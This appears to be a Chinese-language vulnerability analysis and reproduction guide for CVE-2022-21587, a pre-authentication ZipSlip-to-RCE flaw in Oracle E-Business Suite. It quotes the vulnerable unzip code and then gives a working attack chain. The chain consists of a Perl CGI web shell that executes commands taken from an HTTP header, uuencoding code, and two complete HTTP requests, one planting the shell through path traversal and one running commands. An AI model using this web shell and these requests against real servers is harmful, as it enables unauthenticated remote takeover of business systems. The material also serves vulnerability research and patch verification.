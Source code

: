 CVE-2022-21587 pre-auth ZipSlip -> RCE
--- 

#### 漏洞分析
web.xml

```xml
<servlet>
  <servlet-name>BneUploaderService</servlet-name>
  <servlet-class>oracle.apps.bne.integrator.upload.BneUploaderService</servlet-class>
</servlet>

<servlet-mapping>
  <servlet-name>BneUploaderService</servlet-name>
  <url-pattern>/BneUploaderService</url-pattern>
</servlet-mapping>
```

BneUploaderService 的父类 BneAbstractXMLServlet 在处理文件上传包时会调用 BneUnZip#doUnZip 进行解压处理


```java
public String doUnZip(String var1) throws IOException {
    new String("");
    String var3 = new String("");
    BneContext.getLogInstance().log(7, "BneUnZip.doUpZip Enter fileName: " + var1);
    String var2 = BneSitePropertyManager.getInstance().getProperty("BNE_UPLOAD_STAGING_DIRECTORY");

    try {
        BufferedOutputStream var4 = null;
        FileInputStream var5 = new FileInputStream(var1);
        ZipInputStream var6 = new ZipInputStream(new BufferedInputStream(var5));

        ZipEntry var7;
        while((var7 = var6.getNextEntry()) != null) {
            byte[] var8 = new byte[2048];
            var3 = var2 + System.getProperty("file.separator") + var7.getName();
            // 漏洞点 entry.getName() 是可控的 -> zip slip
            FileOutputStream var10 = new FileOutputStream(var3);
```

需要注意的点: 解压前调用 BneDecoder#doDecode 进行解码(Unix-to-Unix encoding)，所以在生成 zip-slip 的文件后需要进行 uuencode 编码.

#### 漏洞复现

1、生成 uuencode 编码后的payload

- txkFNDWRR.pl
```perl
use CGI;
print CGI::header( -type => 'text/plain' );
my $cmd = CGI::http('HTTP_CMD');
print system($cmd);
exit;
```

ps: jdk 自带 uuencode 编码的实现, 关键代码:

```java
byte[] bytes = Files.readAllBytes(Paths.get(evilZipFile));
String payload = new UUEncoder(zipName).encodeBuffer(bytes);
```

![image](https://user-images.githubusercontent.com/55024146/216362687-707f41df-533b-4bb4-8981-c056ffd81f99.png)

2、第1个请求，通过 zipslip 覆盖 txkFNDWRR.pl

```http
POST /OA_HTML/BneViewerXMLService?bne:uueupload=TRUE HTTP/1.1
Host: apps.example.com:8000
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryZsMro0UsAQYLDZGv
Content-Length: 769

------WebKitFormBoundaryZsMro0UsAQYLDZGv
Content-Disposition: form-data; name="bne:uueupload"

TRUE
------WebKitFormBoundaryZsMro0UsAQYLDZGv
Content-Disposition: form-data; name="uploadfilename";filename="test.zip"

[payload]
------WebKitFormBoundaryZsMro0UsAQYLDZGv--

```

3、第2个请求，调用 CGI 执行命令并回显

```http
POST /OA_CGI/FNDWRR.exe HTTP/1.1
Host: apps.example.com:8000
cmd: pwd
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

```

![image](https://user-images.githubusercontent.com/55024146/216365358-cdd610ee-108c-422b-b46c-e5c885facbc9.png)


详见: https://blog.viettelcybersecurity.com/cve-2022-21587-oracle-e-business-suite-unauth-rce/
